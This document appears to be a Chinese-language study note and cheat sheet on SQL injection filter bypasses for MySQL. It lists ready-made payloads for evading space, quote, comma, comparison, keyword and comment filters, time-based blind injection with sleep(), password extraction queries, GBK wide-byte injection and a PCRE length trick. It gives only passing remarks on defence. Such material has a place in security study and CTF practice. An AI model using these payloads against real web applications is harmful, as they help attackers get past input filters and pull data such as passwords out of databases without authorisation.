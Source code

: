 ```yaml
---
icon: pen-to-square
date: 2025-04-30
tags: 
title: web6--sql注入
category:
  - 领域
---
```

## 1.绕过空格`（注释符/* */，%a0）`：

　　两个空格代替一个空格，用Tab代替空格，%a0=空格：`

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格

## 2.括号绕过空格：

　　如果空格被过滤，括号没有被过滤，可以用括号绕过。

　　在MySQL中，括号是用来包围[子查询](https://so.csdn.net/so/search?q=%E5%AD%90%E6%9F%A5%E8%AF%A2&spm=1001.2101.3001.7020)的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

```
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于[time](https://so.csdn.net/so/search?q=time&spm=1001.2101.3001.7020) based盲注,例如：
```
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

## 3.引号绕过（使用十六进制）：
　　会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：
```
select column_name  from information_schema.tables where table_name="users"
```

　　这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
　　users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：
　　
```
select column_name  from information_schema.tables where table_name=0x7573657273
```

##  4.逗号绕过（使用from或者offset）：
　　在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：
```
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```
　　使用join：
```
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```
　　使用like：
```
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```
　　对于limit可以使用offset来绕过：
```
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```
## 5.比较符号（<>）绕过
过滤了<>：sqlmap盲注经常使用<>，使用between的脚本：
使用greatest()、least（）：（前者返回最大值，后者返回最小值）
　　同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。
　　最常见的一个盲注的sql语句：

```
select * from users where id=1 and ascii(substr(database(),0,1))>64
```
　　此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
　　那么上面的这条sql语句可以使用greatest变为如下的子句:
```
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

### 使用between and：

   between a and b：

between 1 and 1; 等价于 =1

## 6.or and xor not绕过：

```

and=&&  or=||   xor=|   not=!
```
## 7.绕过注释符号（#，--(后面跟一个空格））过滤：
```
id=1' union select 1,2,3||'1
```
　　最后的or '1闭合查询语句的最后的单引号，或者：
```
id=1' union select 1,2,'3
```
## 8.=绕过：
　　使用like 、rlike 、regexp 或者 使用< 或者 >

## 9.绕过union，select，where等：
（1）使用注释符绕过：
　　常用注释符：
```
//，-- , /**/, #, --+, -- -, ;,%00,--a
```
　　用法：
```
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```
（2）使用大小写绕过：
```
id=-1'UnIoN/**/SeLeCT
```
（3）内联注释绕过：
```
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```
（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：
```
id=-1'UNIunionONSeLselectECT1,2,3–-
```
## 10.通用绕过（编码）：
　　如URLEncode编码，ASCII,HEX,unicode编码绕过：
```
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。
```
## 11.等价函数绕过：
```
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```
## 12.宽字节注入：
　　过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。

　　在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

　　（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：

id=-1%df%27union select 1,user(),3--+
　　（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。

一般产生宽字节注入的PHP函数：
   1.replace（）：过滤 ' \ ，将 ' 转化为 \' ，将 \  转为 \\，将 " 转为 \" 。用思路一。

   2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：' , " , \ 。用思路一

（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

　 　3.mysql_real_escape_string()：转义下列字符：

\x00     \n     \r     \     '     "     \x1a
（防御，将mysql设置为gbk即可）

PCRE绕过：
union/*'+'a'*1000001+'*/select


参考链接：[【网络安全】SQL注入绕过技巧--CSDN](https://blog.csdn.net/Cairo_A/article/details/134882367)